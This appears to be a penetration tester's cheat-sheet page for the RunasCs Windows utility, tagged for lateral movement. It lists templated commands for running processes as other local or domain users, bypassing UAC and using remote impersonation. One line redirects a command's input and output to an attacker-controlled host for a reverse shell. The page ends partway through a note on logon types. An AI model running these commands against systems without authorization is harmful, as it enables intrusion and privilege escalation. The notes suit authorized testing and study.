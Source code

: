 ```yaml
---
tags:
  - tool
  - windows
  - lateral_movement
---
```

# RunasCs

Packaged Runas utility - [RunasCs](https://github.com/antonioCoco/RunasCs)

## Capabilities

```powershell
# Run command in the context of the current user
Invoke-RunasCs x x '$CMD' -l 9

# Run a command as a local user
Invoke-RunasCs $USER '$PASSWD' '$CMD'

# Run a command as a domain user and logon type as NetworkCleartext (8)
Invoke-RunasCs $USER '$PASSWD' '$CMD' -d domain -l 8

# Run a background process as a local user (useful for reverse shells)
Invoke-RunasCs $USER '$PASSWD' '$CMD' -t 0

# Redirect stdin, stdout and stderr of the specified command to a remote host
Invoke-RunasCs $USER '$PASSWD' '$CMD' -r $OUR_IP:$PORT

# Run a command simulating the /netonly flag of runas.exe
Invoke-RunasCs $USER '$PASSWD' '$CMD' -l 9

# Run a command as an Administrator bypassing UAC
Invoke-RunasCs $ADMIN_USER '$PASSWD' '$CMD' --bypass-uac

# Run a command as an Administrator through remote impersonation
Invoke-RunasCs $ADMIN_USER '$PASSWD' '$CMD' -l 8 --remote-impersonation
```

If username or password is extremely long:

```powershell
New-Variable -Name 'pass' -Visibility Public -Value '$LONG_PASS'
```

## Session Context

One of the other great capabilities of `RunasCs.exe` is providing the ability for you to change your session context. By default, when authenticating with `winrm`, our session context is set to `Network` (logon type 3). This is 

```powershell
[-] Allowed values are:
[-]     2       Interactive
[-]     3       Network
[-]     4       Batch
[-]     5       Service
[-]     7       Unlock
[-]     8       NetworkCleartext
[-]     9       NewCredentials
[-]     10      RemoteInteractive
[-]     11      CachedInteractive
```
